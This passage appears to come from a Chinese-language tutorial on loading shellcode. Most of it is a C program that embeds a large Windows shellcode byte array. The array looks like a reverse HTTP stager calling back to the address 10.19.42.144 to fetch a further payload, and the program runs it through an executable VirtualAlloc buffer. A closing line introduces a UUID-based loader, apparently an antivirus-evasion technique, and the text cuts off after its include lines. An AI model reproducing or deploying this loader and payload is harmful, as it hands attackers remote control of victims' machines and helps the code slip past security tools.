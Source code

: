 ```
unsigned char buf[] = "\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe2\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12\xeb\x86\x5d\x68\x6e\x65\x74\x00\x68\x77\x69\x6e\x69\x54\x68\x4c\x77\x26\x07\xff\xd5\x31\xff\x57\x57\x57\x57\x57\x68\x3a\x56\x79\xa7\xff\xd5\xe9\x84\x00\x00\x00\x5b\x31\xc9\x51\x51\x6a\x03\x51\x51\x68\x50\x00\x00\x00\x53\x50\x68\x57\x89\x9f\xc6\xff\xd5\xeb\x70\x5b\x31\xd2\x52\x68\x00\x02\x40\x84\x52\x52\x52\x53\x52\x50\x68\xeb\x55\x2e\x3b\xff\xd5\x89\xc6\x83\xc3\x50\x31\xff\x57\x57\x6a\xff\x53\x56\x68\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x84\xc3\x01\x00\x00\x31\xff\x85\xf6\x74\x04\x89\xf9\xeb\x09\x68\xaa\xc5\xe2\x5d\xff\xd5\x89\xc1\x68\x45\x21\x5e\x31\xff\xd5\x31\xff\x57\x6a\x07\x51\x56\x50\x68\xb7\x57\xe0\x0b\xff\xd5\xbf\x00\x2f\x00\x00\x39\xc7\x74\xb7\x31\xff\xe9\x91\x01\x00\x00\xe9\xc9\x01\x00\x00\xe8\x8b\xff\xff\xff\x2f\x31\x6b\x6a\x56\x00\xfe\xdc\x7a\x2d\x31\xc9\xe7\x28\x1e\xb5\x42\x5f\x62\xa3\xf5\x64\x42\x79\x2d\xa2\xd8\xf7\x74\xca\xc1\x64\xc7\xc2\xfe\x32\xb2\x36\x0a\xa0\x90\x4e\xfa\xd4\x47\x04\xa4\x8b\xd9\xe6\x65\xa1\x8f\xbe\xe4\xb6\x95\x63\xf0\xb4\x46\x20\x85\xf8\x60\x5e\xb1\xf8\xa0\x59\xef\x9e\xb2\xc6\xe6\xf9\x5d\x8e\x07\x00\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x35\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x31\x30\x2e\x30\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x36\x2e\x32\x3b\x20\x57\x4f\x57\x36\x34\x3b\x20\x54\x72\x69\x64\x65\x6e\x74\x2f\x36\x2e\x30\x3b\x20\x54\x6f\x75\x63\x68\x3b\x20\x4d\x41\x53\x50\x4a\x53\x29\x0d\x0a\x00\x91\xa8\x10\xb7\xda\x80\x7f\xab\xc7\x23\x16\x2f\x4b\x61\xbd\xeb\xa5\x14\x6f\x90\x4b\xdf\x5a\x58\xe0\x57\x55\x1f\xdb\x6a\x56\x74\xc2\xa1\x9c\x9f\x32\xda\x91\x0d\x01\x10\x2d\x95\xef\x8e\x49\x72\x3a\x2b\x9e\x59\x8e\x85\xa6\xad\xb6\x9c\xc6\x98\x10\x7d\x09\x1f\x60\xa3\x4a\xea\xbe\x4a\xf5\x49\x8a\xc7\x18\xd6\x60\x22\x51\x17\xb8\xd6\x61\xd3\x8a\x81\x37\x3e\x6a\x3d\x1c\x3d\xc5\xf3\xa0\x57\x02\x04\x44\x57\xc1\x14\x23\x71\xc2\x08\x87\x6c\x94\x6b\x89\xc1\xd9\x2b\xcc\x6b\x62\x25\x3f\xbb\x9f\x56\x02\xf1\x54\x4d\x4d\x91\x4e\x89\x5b\xda\x5f\xf0\x92\xa5\xac\xb2\xaf\xcf\xbb\xe2\xaf\xb0\xca\x5b\x08\x83\x4c\x92\x7a\xb5\x97\xb9\xd2\x07\xc9\x8f\xb7\x80\xfc\x26\x3d\xa3\xd1\x9e\x29\x42\x05\xcd\x0b\x78\xc2\x11\x86\x4f\x66\x57\xda\xe2\x4b\x98\xcc\x46\x4d\xe5\xbd\xfe\xc7\x2c\xc4\xd3\xe5\xc0\xf9\x43\xca\xd4\x1d\x5a\x73\xda\x00\x68\xf0\xb5\xa2\x56\xff\xd5\x6a\x40\x68\x00\x10\x00\x00\x68\x00\x00\x40\x00\x57\x68\x58\xa4\x53\xe5\xff\xd5\x93\xb9\x00\x00\x00\x00\x01\xd9\x51\x53\x89\xe7\x57\x68\x00\x20\x00\x00\x53\x56\x68\x12\x96\x89\xe2\xff\xd5\x85\xc0\x74\xc6\x8b\x07\x01\xc3\x85\xc0\x75\xe5\x58\xc3\xe8\xa9\xfd\xff\xff\x31\x30\x2e\x31\x39\x2e\x34\x32\x2e\x31\x34\x34\x00\x12\x34\x56\x78";
int main()
{
  void* shellcode = (void*)VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
  memcpy(shellcode, buf, sizeof(buf));
  ((void(*)())shellcode)();
  return 0;
}

```

然后我们来利用 uuid 写 shellcode

```
#include<Windows.h>
#include<Rpc.h>
#include<iostream>
#pragma comment(lib,"Rpcrt4.lib")
using namespace std;
```